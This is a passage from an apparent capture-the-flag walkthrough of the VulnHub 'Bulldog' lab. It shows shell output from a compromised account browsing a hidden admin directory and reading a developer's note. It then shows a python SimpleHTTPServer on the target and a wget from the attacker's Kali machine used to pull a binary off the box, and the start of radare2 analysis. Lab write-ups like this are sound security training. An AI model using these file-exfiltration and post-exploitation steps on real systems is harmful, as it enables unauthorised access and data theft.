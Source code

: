 drwx------ 2 bulldogadmin bulldogadmin 4096 Aug 24  2017 .cache
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21  2017 .hiddenadmindirectory
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Aug 25  2017 .nano
-rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24  2017 .profile
-rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 25  2017 .selected_editor
-rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24  2017 .sudo_as_admin_successful
-rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24  2017 .wget-hsts
django@bulldog:/home/bulldogadmin$ cd .hiddenadmindirectory
cd .hiddenadmindirectory
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ ls -la
ls -la
total 24
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21  2017 .
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21  2017 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin 8728 Aug 26  2017 customPermissionApp
-rw-rw-r-- 1 bulldogadmin bulldogadmin  619 Sep 21  2017 note
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ cat note
cat note
Nick,

I'm working on the backend permission stuff. Listen, it's super prototype but I think it's going to work out great. Literally run the app, give your account password, and it will determine if you should have access to that file or not! 

It's great stuff! Once I'm finished with it, a hacker wouldn't even be able to reverse it! Keep in mind that it's still a prototype right now. I am about to get it working with the Django user account. I'm not sure how I'll implement it for the others. Maybe the webserver is the only one who needs to have root access sometimes?

Let me know what you think of it!

-Ashley
{% endhighlight %}

So it seems we have a binary to reverse engineer. Firstly, I'll start `SimpleHTTPServer` to copy it into my `Kali machine`. 

Then we can use `radare` to try and crack it. 

{% highlight text %}
<gadmin/.hiddenadmindirectory$ python -m SimpleHTTPServer                    
Serving HTTP on 0.0.0.0 port 8000 ...
10.0.0.4 - - [30/Aug/2018 15:21:51] "GET /customPermissionApp HTTP/1.1" 200 -
{% endhighlight %}

{% highlight text%}
root@kali:~/vulnhub/bulldog# wget 10.0.0.19:8000/customPermissionApp
--2018-08-30 11:21:51--  http://10.0.0.19:8000/customPermissionApp
Connecting to 10.0.0.19:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8728 (8.5K) [application/octet-stream]
Saving to: ‘customPermissionApp’

customPermissionApp 100%[===================>]   8.52K  --.-KB/s    in 0s      

2018-08-30 11:21:51 (43.8 MB/s) - ‘customPermissionApp’ saved [8728/8728]

root@kali:~/vulnhub/bulldog# r2 customPermissionApp 
[0x004004e0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[0x004005d6]> izz
000 0x00000034 0x00400034   4  10 (LOAD0) utf16le @8\t@
001 0x00000238 0x00400238  27  28 (.interp) ascii /lib64/ld-linux-x86-64.so.2
002 0x00000286 0x00400286   6   7 (.note.gnu.build_id) ascii 32S0-t